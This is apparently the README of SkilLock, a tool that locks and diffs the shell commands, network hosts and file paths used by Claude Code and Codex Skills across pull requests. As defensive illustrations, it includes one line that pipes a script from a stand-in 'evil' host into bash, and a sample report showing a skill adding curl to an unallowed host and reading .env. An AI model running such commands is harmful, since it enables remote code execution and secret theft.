

# SkilLock

**Lock the *behavior* of your AI Skills. See exactly what changed in every Pull Request.**

`skil-lock` pins the capability surface — shell commands, network URLs, file paths — of every Claude Code and Codex Skill in your repository. On every PR, a GitHub Action posts a comment showing **what changed**.

Hash pinning catches tampering. SkilLock catches *what the skill is now doing*.

[](./LICENSE)
[](./SPEC.md)



---

## What it actually does

When AI coding agents like [Claude Code](https://code.claude.com/docs/en/skills) or [Codex](https://developers.openai.com/codex/skills) install Skills, those skills can run shell commands, hit the network, and read or write files in your repo.

SkilLock records that capability surface in a committed `skills.lock` file. Every PR re-scans, computes the delta, and posts something like this:

```
### SkilLock — capability changes

| Skill | Change | Capability | Detail | Reason |
|---|---|---|---|---|
| code-review | added | shell_commands | curl | — |
| code-review | added | network_urls | https://api.evil.example.com | host not in allowed_domains |
| code-review | added | file_reads | ./.env | matches protected_paths |

**BLOCK: 3 of 3 entries at severity >= medium**

Paste into `.skil-lock-approvals.yaml` to approve:

```yaml
schema_version: "0.1"
approvals:
  - skill: code-review
    delta: {added_shell_command: "curl"}
    reviewer: "REPLACE_ME"
    reviewed_at: 2026-05-20T14:00:00Z
    reason: "REPLACE_ME"
```
```

Approve by pasting four lines into the override file, push, the check turns green.

## 60-second install

Prebuilt binaries are published for **macOS (Intel + Apple Silicon), Linux (amd64 + arm64), and Windows (amd64)** on every release. In your repo (where `.claude/skills/` or `.codex/skills/` lives):

```bash
# 1. Install (pick one):

# Option A: via go install (any platform with Go 1.22+)
go install github.com/skills-lock/skil-lock/cmd/skil-lock@v0.1.1

# Option B: precompiled binary
# macOS / Linux (auto-detects arch):
OS=$(uname -s | tr A-Z a-z)
ARCH=$(uname -m | sed s/x86_64/amd64/ | sed s/aarch64/arm64/)
curl -sL https://github.com/skills-lock/skil-lock/releases/download/v0.1.1/skil-lock_0.1.1_${OS}_${ARCH}.tar.gz | tar -xz

# Windows (PowerShell or browser): download
#   https://github.com/skills-lock/skil-lock/releases/download/v0.1.1/skil-lock_0.1.1_windows_amd64.zip

# 2. Accept your current skills as the approved baseline
skil-lock init --baseline .

# 3. Commit the lockfile
git add skills.lock
git commit -m "Pin approved AI Skill behavior"
```

To run on every PR, add `.github/workflows/skil-lock.yml`:

```yaml
name: SkilLock
on: pull_request
permissions:
  contents: read
  pull-requests: write
jobs:
  skil-lock:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - uses: skills-lock/skil-lock-action@v0.1.2
        with:
          pin-binary: v0.1.1
```

Runs on `ubuntu-*` and `macos-*` GitHub-hosted runners (amd64 + arm64). All [release assets](https://github.com/skills-lock/skil-lock/releases) are SHA-256 checksummed.

## Why behavior, not hash?

A hash tells you *something* changed. It does not tell you *what*. When a reviewer sees `content_hash: sha256:abc → sha256:def` they have to read the entire diff to understand what's different.

SkilLock records the surfaces that matter for security review:

- **Shell commands** — does this skill now run `curl`? `rm`? `bash`?
- **Network URLs** — what hosts does it reach? Did a new one appear?
- **File reads / writes** — does it read `.env` now? Write to `dist/`?
- **Allowed tools** — what Claude/Codex tools did the author grant?
- **Bundled scripts** — what shipped alongside the markdown?

A reviewer sees `added file_reads: ./.env` and immediately knows what to ask.

## Why not just `git diff`?

`git diff` shows you the raw textual change inside `.claude/skills/*/SKILL.md` — every prose tweak, every reformatted bullet, every `# heading` rename, side-by-side with the security-relevant edits. In a long PR with mixed documentation and code changes, a buried `bash -c "curl evil.example.com/x.sh | bash"` inside a fenced code block reads like ordinary documentation.

SkilLock parses the markdown into structured capability sets — shell commands, network URLs, file reads, file writes, allowed tools, bundled scripts — and diffs the *sets*, not the text. Three concrete differences:

- **Signal, not noise.** A 200-line PR that adds `curl` to an unallowed host produces a one-row diff entry. No prose changes appear in the report; reviewers see only the capability surface that moved.
- **Policy-driven severity.** `.skil-lock.yaml` declares which paths are protected, which domains are allowed, which capabilities require a paste-back approval. `git diff` has no concept of any of that — every line is the same color.
- **Audit trail.** Approvals live in `.skil-lock-approvals.yaml` with reviewer + timestamp + reason for each delta. `git diff` produces no record of *why* a reviewer accepted the change.

`git diff` stays useful — for prose. SkilLock is what catches the moment a skill silently starts running `rm` or talking to a new host.

## Compatibility

| Agent / runtime | Status in v0.1 | Notes |
|---|---|---|
| **Claude Code** | ✅ Supported | Parses `.claude/skills/*/SKILL.md` (YAML frontmatter + Markdown + bundled scripts) |
| **Codex** | ✅ Supported | Same `SKILL.md` format; parses `.codex/skills/*/SKILL.md` |
| **Cursor** | 🟡 Planned | Uses a different `manifest.json` format — needs a new parser; tracking demand |
| **Copilot Skills** | 🟡 Planned | Format still stabilising; tracking demand |
| **Windsurf / MCP** | 🟡 Planned | Same as above — open an issue if you'd use it |

Want a runtime added? Open an issue with a real `SKILL.md`-equivalent fixture from your project; that's the fastest path.

## How it compares

| Tool | Style | What it pins | License |
|---|---|---|---|
| **SkilLock** (this) | Post-install, PR workflow | **Behavior surface** (shell, URLs, paths) | Apache 2.0 |
| Snyk Agent Scan | Pre-install scanner | n/a (on-demand scan) | Commercial |
| Mondoo Skills Check | Pre-install scanner | n/a (on-demand scan) | Commercial |
| SkillFortify | Post-install | Hash + coarse capabilities | Elastic 2.0 |
| `gh skill --pin` | Built into GitHub CLI | Tag / SHA | (GitHub CLI license) |

If you want known-bad pattern scanning before you install a skill, use Snyk or Mondoo. If you want a *committed file* that lets reviewers see capability changes in every PR, use this.

## Examples & integrations

- **Live demo repo**: [`skills-lock/example-claude-code-skills`](https://github.com/skills-lock/example-claude-code-skills) shows three working Claude Code skills with a clean `skills.lock` baseline. The [`example/drift`](https://github.com/skills-lock/example-claude-code-skills/tree/example/drift) branch adds a `curl` to an unallowed host so you can see the BLOCK output on a real PR.
- **Worked `skills.lock` file**: [SPEC.md §11](./SPEC.md#11-example) walks through a complete lockfile with multiple skills and detector outputs.
- **JSON Schema** for editor auto-complete: [`schemas/skills.lock-v0.1.json`](./schemas/skills.lock-v0.1.json). Drop into VSCode `settings.json`:

  ```jsonc
  {
    "yaml.schemas": {
      "https://raw.githubusercontent.com/skills-lock/skil-lock/main/schemas/skills.lock-v0.1.json": "skills.lock"
    }
  }
  ```

- **Interoperability — SARIF + Code Scanning**: see the [GitHub Security tab integration](#github-security-tab-integration-sarif) section above.

## What's in v0.1

- CLI: `scan`, `lock`, `init --baseline`, `list`, `diff`, `ci`
- Runtimes: **Claude Code** and **Codex** (same `SKILL.md` format)
- Three deterministic detectors: shell execution, external network, protected-path reads/writes
- `skills.lock` — committed baseline, schema spec'd in [SPEC.md](./SPEC.md)
- `.skil-lock.yaml` — policy (warn vs block, protected paths, allowed domains)
- `.skil-lock-approvals.yaml` — override audit trail (reviewer + reason + timestamp)
- GitHub Action with PR-comment renderer
- **SARIF v2.1.0 output** (`--format sarif`) for GitHub Code Scanning integration — findings show up inline in the PR diff *and* in the repo's Security tab

## GitHub Security tab integration (SARIF)

To send capability deltas to GitHub Code Scanning so they appear in the repo's Security tab and inline in the PR diff, flip the `sarif` input on:

```yaml
name: SkilLock
on: pull_request
permissions:
  contents: read
  pull-requests: write
  security-events: write    # required for SARIF upload
jobs:
  skil-lock:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - uses: skills-lock/skil-lock-action@v0.1.2
        with:
          pin-binary: v0.1.1
          sarif: true
```

`high`-severity deltas surface as **errors**, `medium` as **warnings**, and `low`/`info` as **notes**. The PR comment is independent — both surfaces show the same data, the SARIF feed just plugs SkilLock into existing Code Scanning workflows. The CLI also exposes this directly: `skil-lock ci --format sarif > skil-lock.sarif`.

## What's NOT in v0.1 (intentionally)

To keep the scope narrow and the positioning clean:

- No runtime guard / Claude Code hooks integration — different problem
- No Cursor / Windsurf / MCP parsers — different file formats; expand based on demand
- No AI-assisted detection — three deterministic detectors only
- No known-bad pattern database — that's Mondoo's lane
- No web dashboard or registry

See [`SPEC.md`](./SPEC.md) for the full file-format specification. The out-of-scope list above is the canonical statement of what v0.1 will and will not do.

## Project status

- CLI: `v0.1.1` — SARIF output for GitHub Code Scanning, multi-platform release binaries
- GitHub Action: [`skil-lock-action@v0.1.2`](https://github.com/skills-lock/skil-lock-action/releases/tag/v0.1.2) — PR-comment rendering fix
- Release notes + earlier history: [skil-lock releases](https://github.com/skills-lock/skil-lock/releases) and [skil-lock-action releases](https://github.com/skills-lock/skil-lock-action/releases)

## License

Apache 2.0 — see [LICENSE](./LICENSE). Contributions are covered by a one-time CLA via [cla-assistant.io](https://cla-assistant.io) (see [CONTRIBUTING.md](./CONTRIBUTING.md)).

## Security

Report vulnerabilities privately via [GitHub Security Advisories](https://github.com/skills-lock/skil-lock/security/advisories/new). See [SECURITY.md](./SECURITY.md). Do not file public issues for vulnerabilities.

## Trademarks

`SkilLock` and `skil-lock` are not affiliated with or endorsed by Skil power tools (a brand owned by Chervon Group). The name comes from "Skill Lock" and refers to AI Skills, not to power tools.

`Claude` and `Claude Code` are trademarks of Anthropic PBC. `Codex` is a trademark of OpenAI, OpCo, LLC. References to these names in this project are descriptive (nominative fair use) and do not imply affiliation with or endorsement by either company.
